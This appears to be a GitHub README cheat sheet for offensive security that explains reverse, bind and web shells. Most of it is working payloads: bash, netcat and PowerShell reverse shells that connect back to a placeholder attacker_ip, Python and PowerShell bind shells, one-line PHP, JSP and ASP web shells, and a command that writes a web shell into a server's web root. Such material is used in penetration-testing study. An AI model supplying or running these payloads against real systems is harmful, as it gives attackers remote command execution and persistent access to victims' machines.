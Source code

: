  ![Banner](./images/Shell.jpg)

# 🔧 **Type of Shells**

## 1. 🔄 Reverse Shell

  In a reverse shell, the target machine connects back to the attacker’s machine, giving the attacker control.

- **Working:** Attacker sets up a listener; the victim initiates the connection.

- **Use:** Bypassing firewalls (since outgoing connections are often allowed).

- **Example flow:**
  
  The first step is to setup a listner (e.g. netcat listener) on a port of your choosing:

      `nc -lvnp <PORT> `

  Next step is choosing the shell according to the envirnment and services. We can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
  
  > Linux (bash):
   
       `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<Port> 0>&1'`
  > Linux (bash):

      `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f`
  
  > Windows (powershell):
  
      `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`


## 2. 🔗 Bind Shell
  
  In a bind shell, the target machine opens a port and listens for incoming connections from the attacker.
  
- **Working:** The victim machine opens a port and listens; the attacker connects to it to gain a shell.
  
- **Use:** Simple to set up in unrestricted environments, but less useful behind firewalls or NAT, since incoming connections may be blocked.

- **Example flow:**

    First, the victim runs a bind shell command on their system. The shell listens on a port (e.g. 0-65535) and waits for an attacker to connect.

  > Linux (bash):

      `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp <Port> > /tmp/f`
  
  > Linux (Python):

      `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept(); while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

  > Windows (PowerShell):

      `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + " "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();`

    Once the victim sets the bind shell, attacker can connect like this:

       nc <victim_ip> <Port>
  
    If successful, this gives the attacker an interactive shell.
    


## 3. 🌐 Web Shell
  
  A web shell is a malicious script uploaded to a web server (usually PHP, ASP, JSP, etc.). It executes system commands sent through HTTP requests.

- **Working:** The attacker uploads a script (e.g., PHP, ASP) to the victim’s web server. This script executes system commands via a browser interface.

- **Use:** Common in web server exploitation, especially after finding a file upload or RCE vulnerability. Allows remote command execution via HTTP/S.


- **Example flow:**

  Writing the Web Shell:
    > PHP (most common):
    
      `<?php system($_REQUEST["cmd"]); ?>`
    
    > JSP:
    
      `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    
    > ASP:
    
      `<% eval request("cmd") %>`

  Uploading the Shell:
    If an upload feature is vulnerable:
        We can upload shell.php to /var/www/html/ or equivalent.

    If we already have RCE:

      `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

    Accessing Web Shell:

      `http://<server_ip>:<port>/shell.php?cmd=id`



# Links for shell generation

> [Powershells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/powershell-cheatsheet/)

> [Reverse shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)

> [Bind shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python)

> [Shell generator](https://www.revshells.com/)

